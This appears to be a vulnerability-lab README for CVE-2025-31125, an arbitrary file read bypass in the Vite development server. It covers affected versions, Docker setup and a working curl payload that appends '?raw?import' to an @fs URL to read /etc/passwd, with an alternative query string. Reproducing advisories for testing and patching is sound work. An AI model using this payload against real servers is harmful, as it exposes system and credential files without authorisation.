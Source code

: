 # Vite Development Server Arbitrary File Read Bypass (CVE-2025-31125)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a development server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.4, 6.1.3, 6.0.13, 5.4.16, and 4.5.11, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By appending `?raw?import` or `?import&?inline=1.wasm?init` to URLs using the `@fs` prefix, an attacker can read arbitrary files on the filesystem, as long as the Node.js process has permission to read them.

This vulnerability is a bypass for the patch of [CVE-2025-30208](../CVE-2025-30208/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31125>

## Environment Setup

Execute the following command to start a Vite 6.2.3 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

By appending `?raw?import` to the URL, you can bypass this restriction and retrieve the contents of the file:

```
curl "http://your-ip:5173/@fs/etc/passwd?raw?import"
```

This request will return the contents of the `/etc/passwd` file:

![](1.png)

Alternatively, you can also use the `?import&?inline=1.wasm?init` query parameters to achieve the same result.
